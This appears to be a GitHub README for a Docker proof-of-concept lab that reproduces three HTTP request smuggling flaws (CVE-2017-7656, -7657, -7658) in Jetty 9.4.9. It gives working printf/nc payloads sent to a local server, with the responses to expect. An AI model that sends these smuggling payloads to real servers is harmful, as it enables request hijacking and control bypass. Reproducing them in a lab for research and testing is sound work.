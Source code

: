 #	Jetty - Http Smuggling

##	Composition

jetty 9.4.9



##	使用

Only for POC.

###	build

```bash
docker-compose up -d
```

The jetty server will on the port 9014.



###	check

```bash
$ chmod +x check.sh;./check.sh|grep HTTP
HTTP/1.1 200 OK
```

1 HTTP code 200 means all right! 

Enjoy!



###	reproduce[容器内没有nc，退出容器]

####	CVE-2017-7656 HTTP/0.9

```bash
printf 'GET /?test=4564 HTTP/0.9\r\n\r\n'|nc -q 1 127.0.0.1 9014
```

You will get an http/0.9 response. No headers is right. HTTP/0.9 responses don't have headers.

```html
<html>
<head>
<title>Sample "Hello, World" Application</title>
</head>
<body bgcolor=white>

<table border="0">
<tr>
<td>
<img src="images/tomcat.gif">
</td>
<td>
<h1>Sample "Hello, World" Application</h1>
<p>This is the home page for a sample application used to illustrate the
source directory organization of a web application utilizing the principles
outlined in the Application Developer's Guide.
</td>
</tr>
</table>

<p>To prove that they work, you can execute either of the following links:
<ul>
<li>To a <a href="hello.jsp">JSP page</a>.
<li>To a <a href="hello">servlet</a>.
</ul>

</body>
</html>
```



####	CVE-2017-7657 Chunk size attribute truncation

```bash
printf 'POST /?test=4973 HTTP/1.1\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Content-Type: application/x-www-form-urlencoded\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'100000000\r\n'\
'\r\n'\
'POST /?test=4974 HTTP/1.1\r\n'\
'Content-Length: 5\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
|nc 127.0.0.1 9014|grep "HTTP/1.1"
```

You will get two 200 codes. 

Try this:

```bash
printf 'POST /?test=4975 HTTP/1.1\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Content-Type: application/x-www-form-urlencoded\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'1ff00000008\r\n'\
'abcdefgh\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'POST /?test=4976 HTTP/1.1\r\n'\
'Content-Length: 5\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 9014|grep "HTTP/1.1"
```

You will get two 200 codes, too.

Jetty will cut the long size to short size. For example, the first time we tried, size is 100000000. It will be treated as 0. The second time we tried, size is 1ff00000008. It will be treated as 8.

So both of these, we will get two responses.



####	CVE-2017-7658 Double Content-Length

```bash
printf 'GET /?test=4966 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Connection: keepalive\r\n'\
'Content-Length: 45\r\n'\
'Content-Length: 0\r\n'\
'\r\n'\
'GET /?test=4967 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9014
```

We will get

```
HTTP/1.1 400 Duplicate Content-Length
Content-Type: text/html;charset=iso-8859-1
Content-Length: 67
Connection: close
Server: Jetty(9.4.9.v20180320)

<h1>Bad Message 400</h1><pre>reason: Duplicate Content-Length</pre>
```

But when we try this:

```bash
printf 'GET /?test=4968 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Connection: keepalive\r\n'\
'Content-Length: 0\r\n'\
'Content-Length: 45\r\n'\
'\r\n'\
'GET /?test=4969 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9014
```

We will get a 200 code. So let's smuggle.

```bash
printf 'GET /?test=4970 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'Connection: keepalive\r\n'\
'Content-Length: 0\r\n'\
'Content-Length: 45\r\n'\
'\r\n'\
'GET /?test=4971 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
'GET /?test=4972 HTTP/1.1\r\n'\
'Host: localhost\r\n'\
'\r\n'\
|nc 127.0.0.1 9014
```

We will get two 200 codes.



#	Reference

https://regilero.github.io/english/security/2019/04/24/security_jetty_http_smuggling/#toc3

https://blog.zeddyu.info/2019/12/05/HTTP-Smuggling/